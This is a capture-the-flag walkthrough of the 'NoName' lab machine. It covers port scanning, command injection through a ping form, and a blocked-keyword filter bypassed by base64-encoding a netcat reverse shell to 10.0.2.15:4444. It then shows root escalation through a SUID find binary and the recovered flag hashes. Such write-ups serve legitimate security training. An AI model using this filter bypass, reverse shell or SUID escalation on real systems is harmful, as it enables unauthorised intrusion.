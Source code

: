 ```yaml
---
title: NoName
categories: [Proving Grounds Play]
tags: [Command  Injection, PrivEsc, SUIDs, Steghide, find]
image:
  path: https://rotnemzero.com/wp-content/uploads/2023/08/Featured-780x470.png
  alt:  NoName Machine 🖥️
---
```


>This machine crashes alot so frustrating Machine →
{: .prompt-danger }

### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/NoName/Untitled.png)

```bash
IP : 10.0.2.57
```
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.57     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-27 15:54 IST
Nmap scan report for 10.0.2.57
Host is up (0.0023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site does not have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:7E:D4:B7 (Oracle VirtualBox virtual NIC)
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%201.png)

Now Entering any value gives no results so lets see into the directory listing files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%202.png)

lets see the admin directory →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%203.png)

I think paraphrase are used in as password from extracting data from image or file so lets see what I can get from this →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%204.png)

as I got a file named as `superadmin.php` →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%205.png)

Now I see it is pinging the input IP address so lets bypass it and make it into a command Injection →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%206.png)

Now I can execute certain commands so lets see the source code of this superadmin.php file so that  we can debugg this page →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%207.png)

After seeing this code I have to bypass (";","&&","/","bin","&"," &&","ls","nc","dir","pwd") these attributes to gain an access →

So lets use base64 as encoding and decoding system and then executing it .

Lets try →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Noname]
└─$ echo "nc.traditional -e /bin/bash 10.0.2.15 4444" | base64
bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDEwLjAuMi4xNSA0NDQ0Cg==
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/NoName/Untitled%208.png)

In response to that I got a local privilege escalation ⤵️

![Untitled](/Vulnhub-Files/img/NoName/Untitled%209.png)

Lets enumerate further →

```bash
www-data@haclabs:/home$ ls
ls
haclabs  yash
www-data@haclabs:/home$ cd yash
cd yash
www-data@haclabs:/home/yash$ ls -al
ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Feb 15  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash   13 Feb 15  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
www-data@haclabs:/home/yash$ cat flag1.txt
cat flag1.txt
Due to some security issues,I have saved haclabs password in a hidden file.
www-data@haclabs:/home/yash$
```
{: .nolineno}

Now I also got flag2.txt into haclabs directory →

```bash
www-data@haclabs:/home/haclabs$ cat flag2.txt	
cat flag2.txt
I am flag2 

	   ---------------               ----------------
                         
                     
                               --------
www-data@haclabs:/home/haclabs$
```
{: .nolineno}

Now lets see the SUIDs files →

![Untitled](/Vulnhub-Files/img/NoName/Untitled%2010.png)

I got a command of `find` that have a permission to get use to root lets try →

```bash
www-data@haclabs:/var/www/html$ find . -exec /bin/bash -p \; -quit 
bash-4.4# whoami
root
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-4.4# cd /root
bash-4.4# ls -al
total 40
drwx------  6 root root 4096 Jun 28 12:22 .
drwxr-xr-x 24 root root 4096 Mar 14  2020 ..
-rw-------  1 root root    0 Jul 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jan 30  2020 .cache
drwx------  5 root root 4096 Jan 30  2020 .config
drwx------  3 root root 4096 Jan 27  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jan 27  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   32 Jul 14  2020 flag3.txt
-rw-r--r--  1 root root   33 Jun 28 12:22 proof.txt
bash-4.4# cat flag3.txt 
Your flag is in another file...
bash-4.4# cat proof.txt 
718d227b9f5e9b38a754aa386ee60f3d
bash-4.4#
```
{: .nolineno}

Now also lets see the local.txt file in yash directory →

```bash
bash-4.4# cd /home
bash-4.4# ls
haclabs  yash
bash-4.4# cd yash
bash-4.4# ls -al
total 36
drwxr-xr-x 5 yash yash 4096 Jul 10  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash    0 Mar 16  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
-rw-r--r-- 1 yash yash   33 Jun 28 12:22 local.txt
bash-4.4# cat local.txt 
7776aa0d53576f01d200900eded356bd
bash-4.4#
```
{: .nolineno}

---